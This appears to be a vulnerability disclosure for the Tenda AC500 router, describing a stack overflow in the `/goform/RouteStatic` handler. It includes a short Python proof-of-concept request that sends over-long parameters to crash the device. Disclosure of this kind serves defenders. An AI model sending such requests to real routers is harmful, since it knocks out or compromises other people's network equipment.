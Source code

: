 # Tenda Router AC500 Vulnerability
This vulnerability lies in the `/goform/RouteStatic` page which influences the lastest version of Tenda Router AC500. (The latest version is [AC500_V1.0.0.16](https://www.tenda.com.cn/download/detail-2219.html))
## Vulnerability Description
There is a stack-based buffer overflow vulnerability in function `fromRouteStatic`.

In function `fromRouteStatic` it reads 2 user provided parameters `entrys` and `mitInterface` into `v8` and `v7`, and these two variables are passed into function `sprintf` without any length check, which may overflow the stack-based buffer `s`.
![](https://github.com/Funcy33/Vluninfo_Repo/blob/main/CNVDs/113/vlun.png)

So by requesting the page `/goform/RouteStatic`, the attacker can easily perform a **Deny of Service Attack** or **Remote Code Execution** with carefully crafted overflow data.
## POC
```
mport requests

IP = "10.10.10.1"
url = f"http://{IP}/goform/RouteStatic?"
url += "entrys=" + "s" * 0x200
url += "&mitInterface=" + "a" * 0x200

response = requests.get(url)
```
## Timeline
## Acknowledgment
Credit to [@Funcy_kilar](https://github.com/Funcy33) from Guangzhou University.

